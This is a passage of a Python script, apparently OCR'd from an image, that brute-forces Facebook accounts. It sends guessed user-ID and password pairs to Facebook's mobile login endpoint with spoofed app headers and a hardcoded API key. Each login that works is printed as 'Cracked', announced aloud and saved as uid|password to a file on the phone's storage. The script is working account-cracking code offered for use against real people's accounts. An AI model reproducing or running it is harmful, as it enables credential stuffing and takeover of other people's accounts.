             'api_key': '882a8490361da98702bf97a021ddc14d'}
            head = {'User-Agent': ua,
            'Content-Type': 'application/x-www-form-urlencoded', 
            'Host': 'graph.facebook.com', 
            'X-FB-Net-HNI': '25227',
            'X-FB-SIM-HNI': '29752',
            'X-FB-Connection-Type': 'MOBILE.LTE', 
            'X-Tigon-Is-Retry': 'False', 
            'x-fb-session-id': 'nid=jiZ+yNNBgbwC;pid=Main;tid=132;nc=1;fc=0;bc=0;cid=d29d67d37eca387482a8a5b740f84f62', 
            'x-fb-device-group': '5120', 
            'X-FB-Friendly-Name': 'ViewerReactionsMutation', 
            'X-FB-Request-Analytics-Tags': 'graphservice', 
            'X-FB-HTTP-Engine': 'Liger', 
            'X-FB-Client-IP': 'True', 
            'X-FB-Server-Cluster': 'True', 
            'x-fb-connection-token': 'd29d67d37eca387482a8a5b740f84f62', 
            'Content-Length': '706'}
            url = "https://b-graph.facebook.com/auth/login"
            rp = requests.post(url,data=data,headers=head,allow_redirects=False,verify=True).json()
            if "session_key" in rp:            	
                print(f'\r\r\r\r\r\33[38;5;37m[\x1b[38;5;46mALi\033[1;97m-\x1b[38;5;46mOK\33[38;5;37m] \x1b[38;5;46m{uid} \033[1;97m● \x1b[38;5;46m{pw}\033[1;97m');os.system('espeak -a 300 " Cracked Ok id,"')
                open("/sdcard/ALi-M3-OLD-OK.txt","a").write(uid+"|"+pw+"\n")
                cps.append(uid)
                break
            elif "www.facebook.com" in rp['error']['message']:
                print(f'\r\r\r\r\r\33[38;5;37m[\x1b[38;5;46mALi\033[1;97m-\x1b[38;5;46mOK\33[38;5;37m] \x1b[38;5;46m{uid} \033[1;97m● \x1b[38;5;46m{pw}\033[1;97m');os.system('espeak -a 300 " Cracked Ok id,"')
                open("/sdcard/ALi-M3-OLD-OK.txt","a").write(uid+"|"+pw+"\n")
                oks.append(uid)
                break
            else:continue
        loop+=1
    except Exception as e:time.sleep(30)
main() 
